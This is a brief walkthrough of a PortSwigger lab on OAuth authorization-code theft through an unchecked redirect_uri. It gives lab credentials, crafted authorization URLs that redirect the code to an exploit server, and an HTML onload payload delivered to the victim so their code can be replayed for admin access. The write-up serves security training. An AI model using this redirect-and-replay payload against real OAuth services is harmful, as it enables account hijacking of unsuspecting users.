


This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

https://portswigger.net/web-security/oauth

-------------

https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

Follow redirection:

Access logs:

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

Deliver exploit to victim:

Log out, log in and replace the code with this one:

After the last request, you get admin access:

Admin panel: